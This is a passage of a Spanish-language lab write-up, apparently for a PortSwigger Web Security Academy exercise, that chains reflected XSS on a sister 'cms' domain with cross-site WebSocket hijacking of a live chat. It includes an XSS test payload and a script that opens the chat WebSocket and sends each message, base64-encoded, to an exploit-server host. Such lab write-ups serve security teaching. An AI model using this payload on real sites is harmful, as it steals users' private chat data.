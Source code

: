 Vemos que se refleja el input usuario.

```
<script>alert(document.domain)</script>
```

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

Ahora hemos identificado **dos vulnerabilidades**:

* **CSWSH** en el **"Live chat".**
* **XSS reflejado** en la página de inicio de sesión del dominio hermano **cms**.

Como el dominio hermano **cms** forma parte del **mismo sitio**, podemos **usar el XSS reflejado** para lanzar el ataque **CSWSH**, sin que las restricciones **SameSite** del navegador lo bloqueen.

URLcodeamos el siguiente script.

```
<script>
let newWebSocket = new WebSocket("wss://0a1f00e1046478b380b4e48300e500f6.web-security-academy.net/chat");

newWebSocket.onopen = function (evt) {
  newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
  var message = evt.data;
  fetch(
    "https://exploit-0a6f001d042378708046e31b01b00092.exploit-server.net/exploit?msg=" + btoa(message)
  );
};
</script>
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>
